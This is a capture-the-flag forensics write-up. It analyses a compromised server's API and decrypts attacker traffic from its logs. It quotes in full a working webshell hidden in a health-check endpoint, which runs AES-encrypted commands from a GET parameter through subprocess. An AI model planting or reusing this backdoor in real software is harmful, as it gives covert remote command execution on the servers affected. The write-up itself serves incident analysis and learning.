 ### Solution

According to the description, it's time to take a look a the archive that we decrypted in the first challenge and inflat the archive inside it. Inside this archive, there is the result of an integrity check of the server. I take a look at the files and start investigating the python library. I saw that the API was a vector of attack, so I quickly begin to look at the code inside the api folder. All scripts seems OK, except one which ge my attention immedialtly when I opened it : `api/resources/health.py` which imports `base64`, `zlib` and `Pycryptodome` for AES.

Few lines after we have the following code :
```python
class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()        
                return result, 200
        except Exception as e:
            return str(e), 501
```
This code spinnet reads the file `/data/flag.txt` and uses it content as an AES key, then get the value of the parameter `cmd` in the GET request to the API path, decompress it, decrypt it with the AES cipher and then execute it.
So if I get the requests made at this endpoint of the API, I am able to decrypt it because I have the file `flag.txt` from the first part.

*Note : the following code was surely installed by the attackers using the reverse shell seen in the last part, it looks like the [FRAMESTING webshell](https://www.mandiant.com/resources/blog/investigating-ivanti-zero-day-exploitation)*


It's time to grep !
![grep again !](https://acmo0.github.io/images/grep_again.gif)

```bash
grep -o 'cmd=.*' cav_webserv.log | grep -v 404 | sed -En 's/cmd=(.*+%3D) .*/\1/p'
// get the calls to the api path - discard not found - extract the base64

// DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA%3D
// K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ%3D
// /ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ%3D%3D
// Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA%3D%3D
// yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ%2B74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ%2B/o%3D
// 7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn%2BXeiWHpCWr%2ByyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD%2B0nZc8%3D
// WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz%2BJxmwQdxnJwNg%3D%3D
// G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM%3D
// QV2ImqgrjrL7%2BtofpO12S9bqgDCRHYXGJwaOIihb%2BNI%3D
```
